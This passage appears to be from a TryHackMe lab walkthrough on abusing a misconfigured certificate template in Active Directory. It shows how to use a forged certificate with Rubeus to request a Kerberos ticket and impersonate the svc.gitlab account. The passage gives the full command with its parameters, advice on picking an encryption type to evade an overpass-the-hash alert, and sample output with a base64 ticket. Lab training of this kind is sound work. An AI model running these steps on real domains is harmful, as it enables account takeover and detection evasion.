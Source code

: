 *Computer Account*

Follow the steps above and generate your very own privilege escalation certificate  

 Completed


### User impersonation through a certificate

Now we can finally impersonate a user. To perform this, two steps are required:

-   Use the certificate to request a Kerberos ticket granting ticket (TGT)  
    
-   Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\THMTools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

`Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:`  

Let's break down the parameters:

-   **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
-   **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
-   **/certificate** - Path to the certificate we have generated
-   **/password** - The password for our certificate file
-   **/outfile** - The file where our TGT will be output to
-   **/domain** - The FQDN of the domain we are currently attacking
-   **/dc** - The IP of the domain controller where we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

TGT Request

```shell-session
C:\THMTools> .\Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:svc.gitlab.kirbi /domain:lunar.eruca.com /dc:10.10.69.219
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
             MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
             BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
             nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
             MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
             zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
             2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
             ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
             Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
             i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
             NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
```